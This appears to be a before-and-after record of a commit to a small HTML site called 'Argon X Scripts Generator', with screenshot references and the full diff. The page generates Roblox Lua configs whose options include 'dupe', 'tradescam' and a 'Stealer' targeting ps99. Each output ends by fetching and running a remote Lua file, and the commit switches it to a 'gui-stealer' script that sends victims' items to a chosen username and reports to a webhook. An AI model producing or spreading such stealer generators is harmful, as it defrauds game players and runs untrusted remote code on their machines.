

Before and after one commit to AzureScript3/gen, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1060 px of the page, without its empty margins (208-1071 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,92 +4,181 @@
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <title>Argon X Scripts</title>
-  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.3.1/styles/default.min.css">
-  <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.3.1/highlight.min.js"></script>
   <style>
-    /* Global Styles */
     body {
         font-family: Arial, sans-serif;
-      background-color: #000000; /* Dark purple background */
+        background-color: #f5f5f5; /* Light gray background for less strain */
+        color: #333; /* Dark gray text for better readability */
         text-align: center;
-      padding: 50px;
+        margin: 0;
+        padding: 0;
     }
-
-    /* Container Styles */
     .container {
-      background-color: #ffffff; /* Darker purple background */
+        max-width: 800px;
+        margin: 50px auto;
         padding: 20px;
+        background: #ffffff; /* White background for the container */
         border-radius: 8px;
-      display: inline-block;
+        box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
     }
-
-    /* Input Field Styles */
-    .input-field {
-      margin: 10px 0;
+    h1 {
+        color: #007bff; /* A soothing blue for the header */
     }
-
-    /* Button Styles */
+    form {
+        margin: 20px 0;
+    }
+    input, textarea, select {
+        display: block;
+        width: calc(100% - 22px);
+        margin: 10px auto;
+        padding: 10px;
+        border: 1px solid #ccc; /* Light gray border */
+        border-radius: 5px;
+        font-size: 16px;
+        background-color: #f9f9f9; /* Slightly off-white background for inputs */
+    }
     button {
+        background-color: #007bff; /* Blue button */
+        color: white;
+        border: none;
         padding: 10px 20px;
-      background-color: #7a49a8; /* Purple button background */
-      color: #ffffff; /* White button text */
-      border: none;
+        font-size: 16px;
         border-radius: 5px;
         cursor: pointer;
+        transition: background-color 0.3s ease;
     }
-
     button:hover {
-      background-color: #5c3c8a; /* Darker purple button hover */
+        background-color: #0056b3; /* Darker blue on hover */
     }
-
-    /* Output Styles */
-    #output {
+    #status {
+        margin-top: 20px;
+        font-size: 16px;
+    }
+    #pastelist {
+        margin-top: 20px;
         text-align: left;
-      white-space: pre-wrap;
+        max-width: 600px;
+        margin-left: auto;
+        margin-right: auto;
     }
-
-    /* Textarea Styles */
-    textarea {
-      width: 100%;
-      height: 150px;
+    #pastelist ul {
+        list-style-type: none;
+        padding: 0;
+    }
+    #pastelist li {
+        margin-bottom: 10px;
+    }
+    #pastelist a {
+        color: #007bff;
+        text-decoration: none;
+    }
+    #pastelist a:hover {
+        text-decoration: underline;
     }
   </style>
 </head>
 <body>
   <div class="container">
     <h1>Argon X Scripts Generator!</h1>
-    <form>
+    <form id="scriptForm">
       <label for="username">Username:</label>
       <input type="text" id="username" name="username"><br><br>
+
       <label for="webhook">Webhook URL:</label>
       <input type="text" id="webhook" name="webhook"><br><br>
-      <label for="minimumRAP">Minimum RAP:</label>
-      <input type="number" id="minimumRAP" name="minimumRAP"><br><br>
-      <button type="button" onclick="generateOutput()">Generate</button>
-      <textarea id="output"></textarea><br><br>
-      <button type="button" onclick="copyToClipboard()">Copy to Clipboard</button>
+
+      <label for="minimumRap">Minimum RAP:</label>
+      <input type="number" id="minimumRap" name="minimumRap" value="10000"><br><br>
+
+      <label for="typesui">Types UI:</label>
+      <select id="typesui" name="typesui">
+        <option value="">None</option>
+        <option value="kavo">Kavo</option>
+        <option value="orion">Orion</option>
+        <option value="fluent">Fluent</option>
+      </select><br><br>
+
+      <label for="typescript">Type Script:</label>
+      <select id="typescript" name="typescript">
+        <option value="dupe">Dupe</option>
+        <option value="tradescam">Tradescam</option>
+      </select><br><br>
+
+      <label for="scriptname">Script Name:</label>
+      <select id="scriptname" name="scriptname">
+        <option value="nexus hub">Nexus Hub</option>
+        <option value="eclipse hub">Eclipse Hub</option>
+        <option value="clever hub">Clever Hub</option>
+      </select><br><br>
+
+      <label for="stealer">Stealer:</label>
+      <input type="text" id="stealer" name="stealer"><br><br>
+
+      <button type="button" id="generateBtn">Generate</button>
+      <textarea id="output" readonly></textarea><br><br>
+      <button type="button" id="copyBtn">Copy to Clipboard</button>
     </form>
   </div>
 
   <script>
-    function generateOutput() {
+    // Make sure DOM is loaded before adding event listeners
+    document.addEventListener("DOMContentLoaded", function() {
+      const generateButton = document.getElementById('generateBtn');
+      const copyButton = document.getElementById('copyBtn');
+
+      // Add event listener for generate button
+      generateButton.addEventListener('click', function(event) {
+        event.preventDefault(); // Prevent any default form action
+
+        // Fetching values from input fields
         const username = document.getElementById("username").value;
-      const username2 = document.getElementById("username2").value;
         const webhook = document.getElementById("webhook").value;
-      const minimumRAP = document.getElementById("minimumRAP").value;
-      const outputString = `_G.Username = "${username}"\n` +
-                           `_G.Webhook = "${webhook}"\n` +
-                           `_G.MinimumRAP = ${minimumRAP}\n` +
-                           'loadstring(game:HttpGet("https://raw.githubusercontent.com/AzureScript3/Script-Ps99/main/lds.lua",true))()';
-      document.getElementById("output").value = outputString;
-      hljs.highlightAll();
+        const minimumRap = document.getElementById("minimumRap").value;
+        const typesui = document.getElementById("typesui").value;
+        const typescript = document.getElementById("typescript").value;
+        const scriptname = document.getElementById("scriptname").value;
+        const stealer = document.getElementById("stealer").value;
+
+        // Logging to check if values are fetched correctly
+        console.log("Username:", username);
+        console.log("Webhook:", webhook);
+        console.log("Minimum RAP:", minimumRap);
+        console.log("Types UI:", typesui);
+        console.log("Type Script:", typescript);
+        console.log("Script Name:", scriptname);
+        console.log("Stealer:", stealer);
+
+        // Input validation - check if fields are filled
+        if (!username || !webhook || !minimumRap || !stealer) {
+          alert("Please fill in all required fields.");
+          return;
         }
 
-    function copyToClipboard() {
+        // Generate output string based on the new structure
+const outputString = `config = {\n` +
+                     `    Username = "${username}", -- Username To Send Pets To\n` +
+                     `    Webhook = "${webhook}", -- Webhook URL\n` +
+                     `    MinimumRap = "${minimumRap}", -- Minimum RAP of each item you want to get sent to you\n` +
+                     `    typesui = "${typesui}", -- kavo, orion, fluent\n` +
+                     `    typescript = "${typescript}", -- dupe, tradescam\n` +
+                     `    scriptname = "${scriptname}", -- nexus hub, eclipse hub, clever hub\n` +
+                     `    stealer = "${stealer}", -- ps99, SOON MM2 AND ADOPT ME\n` +
+                     `}\n\n` +
+                     'loadstring(game:HttpGet("https://raw.githubusercontent.com/AzureScript3/gui-stealer/main/guildsstealer.lua",true))()';
+
+        // Set the output in the textarea
+        document.getElementById("output").value = outputString;
+      });
+
+      // Add event listener for copy button
+      copyButton.addEventListener('click', function() {
         const copyText = document.getElementById("output");
         copyText.select();
+        copyText.setSelectionRange(0, 99999); // For mobile devices
         document.execCommand("copy");
-    }
+        alert("Copied to clipboard!");
+      });
+    });
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
